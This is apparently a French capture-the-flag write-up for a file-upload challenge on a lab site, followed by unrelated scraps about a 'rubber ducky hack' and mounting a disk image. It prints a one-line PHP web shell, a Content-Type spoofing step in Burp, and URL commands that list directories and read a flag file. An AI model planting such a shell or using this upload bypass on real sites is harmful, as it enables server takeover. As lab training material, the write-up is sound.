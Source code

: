 # Secu
*   1 . Upload_medium
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
Ensuite, nous avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`








rubber ducky hack
file dump.dd

how to mount dd file
hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd